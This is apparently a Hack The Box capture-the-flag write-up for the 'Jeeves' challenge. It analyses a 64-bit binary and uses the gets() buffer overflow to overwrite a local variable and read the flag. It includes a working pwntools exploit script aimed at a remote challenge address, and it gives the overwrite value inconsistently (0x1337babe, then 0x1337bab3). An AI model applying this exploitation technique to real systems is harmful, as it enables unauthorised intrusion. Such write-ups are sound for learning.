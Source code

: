 ```yaml
---

title: HTB [JEEVES] [PWN]

date: 2022-06-03 10:28:05 +0200

categories: [pwn,htb]

tags: [Intro to Binary Exploitation]

---
```



## Jeeves

**Challenge Description:**

> How are you doing, sir?


**Analysis:**
- We're having a 64 bit executable file
- it's dynamically linked an not stripped
- Now let's check the mitigations of this binary

- **Mitigations:**

```css
     Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

**Decompile:**

![](https://i.imgur.com/NNawgk3.png)
- *Line12:* gets() is vulnerable to buffer overflow
- *Line14:* They're checking `local_c` == `0x1337bab3`
- It's impossible for this condition check to be true 
- So we're going to use buffer overflow to overwrite this variable's value to `0x1337babe`
- So we can able to read the flag :D

**Exploitation part:**
- First we need to know the offset to that `local_c` variable
- So, I'm generating a pattern with [pattern.py](https://github.com/jopraveen/exploit-development/blob/main/pattern.py)

```css
 0x0000000000001236 <+77>:	cmp    DWORD PTR [rbp-0x4],0x1337bab3
```
- Now setting a break point in this instruction and running it
- Then giving that generated pattern as a input to the program in gdb

![](https://i.imgur.com/DOokuy0.png)
- Now let's see where it occours

```css
➜  ~  pattern Ac0Ac1Ac2Ac         
Pattern Ac0Ac1Ac2Ac first occurrence at position 60 in pattern.
```

- So our exploit be like

|junk|60 bytes|
|-|-|
|0x1337bab3|8 bytes|


**Exploit script:**
```python
from pwn import *

p = remote('157.245.33.77',31834)

payload = b'A'*60
payload += p64(0x1337bab3)

p.sendline(payload)
p.interactive()
```


![](https://i.imgur.com/09LTLgy.png)
- Cool we got our flag!!
